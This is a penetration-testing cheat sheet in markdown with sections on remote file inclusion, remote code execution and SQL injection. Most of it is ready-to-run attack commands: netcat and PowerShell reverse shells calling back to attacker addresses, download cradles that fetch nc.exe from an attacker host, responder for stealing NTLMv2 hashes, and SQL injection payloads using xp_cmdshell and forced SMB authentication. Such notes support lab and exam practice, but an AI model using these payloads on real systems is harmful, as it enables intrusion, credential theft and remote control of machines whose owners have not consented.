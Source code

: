
2. In case if you are not getting anything sensitive information or not able to exploit it, go for RFI by hosting a local SMB server and confirm it by running nc on 445 eg.
```
http://example.php?file=\\10.10.14.111\xxx\file.txt
nc -lvnp 445
```
If receive hits on nc it means it is vulnerable to RFI.


3. Also run responder and try to get a NTLMv2 hash
```
responder -I eth0

```


4. Use tcpdump to verify

tcpdump -i eth0 port 445



## RCE Scenario
1. Use nishang's Invoke-PowerShellTcp.ps1


2. If it is not working then check if powershell CONSTRAINED MODE by using following command.
```
powershell.exe $ExecutionContext.SessionState.LanguageMode
```


3. In such a scenario we can drop nc on server via our locally hosted smb server and get a reverse connection.
```
\\10.10.14.111\xxx\nc.exe 10.10.14.111 9001 -e powershell
```
Also we can drop nc.exe by using following command:
```
powershell (New-Object Net.WebClient).downloadString('http://x.x.x.x/nc.exe') 
```
or can also use IWR
```
powershell IWR -uri http://x.x.x.x/nc.exe -OutFile C:\\Windows\\Temp\\nc.exe
cmd /c c:\\windows\\Temp\\nc.exe x.x.x.x 9001 -e powershell.exe
```
Also we can use below command:
```
powershell wget “http://x.x.x.x/nc.exe” -outfile “nc.exe”
nc.exe -e cmd.exe x.x.x.x 1234
```



## SQL Injection Scenario
1. Use EXEC xpcmdshell to execute a command via SQL Injection and try to steal a
hash using responder.
```
id=1;EXEC xp_cmdshell whoami; --
```
or
```
id=1;declare @q varchar(200);set @q='\\x.x.x.x\localshare';exec
master.dbo.xp_dirtress @q; --+
```
